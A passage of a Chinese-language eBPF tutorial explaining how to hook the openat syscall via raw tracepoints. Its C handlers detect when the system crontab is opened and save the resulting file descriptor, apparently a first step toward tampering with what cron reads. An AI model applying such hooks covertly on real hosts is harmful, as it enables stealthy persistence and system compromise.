 **open**

 

open -> open64 -> openat

 

所以我们最终要对 openat 进行 hook。

```
int openat(int dirfd, const char *pathname, int flags);
int openat(int dirfd, const char *pathname, int flags, mode_t mode);

```

在 enter 时我们要保存 + 判断 rsi 中的参数。在退出时，保存 open_fd。

```
// int openat(int  dirfd , const char * pathname
static __inline int handle_enter_openat(struct bpf_raw_tracepoint_args *ctx) {
  struct pt_regs *regs;
    char buf[0x40];
    char *pathname ;
 
    regs = (struct pt_regs *)(ctx->args[0]);
  pathname = (char *)PT_REGS_PARM2_CORE(regs);
  bpf_probe_read_str(buf,sizeof(buf),pathname);
 
   // Check if open SYSCRONTAB
  if(memcmp(buf , SYSCRONTAB , sizeof(SYSCRONTAB))){
        return 0;
  }
  bpf_printk("[sys_enter::handle_enter_openat] We Got it: %s\n",buf);
 
  // Save to openat_filename_saved
  memcpy(openat_filename_saved , buf , 64);
  return 0;
}

```

```
static __inline int handle_exit_openat(struct bpf_raw_tracepoint_args *ctx){
   if(openat_filename_saved[0]==0){
    return 0;
  }
  // Ensure we open SYSCROnTAB
  if(!memcmp(openat_filename_saved , SYSCRONTAB , sizeof(SYSCRONTAB)))
  {
    // save the corresponding file descriptor
    open_fd = ctx->args[1];
    bpf_printk("[sys_exit::handle_exit_openat()] openat: %s, fd: %d\n",openat_filename_saved , open_fd);
    openat_filename_saved[0] = '\0';
  }
  return 0;
}

```
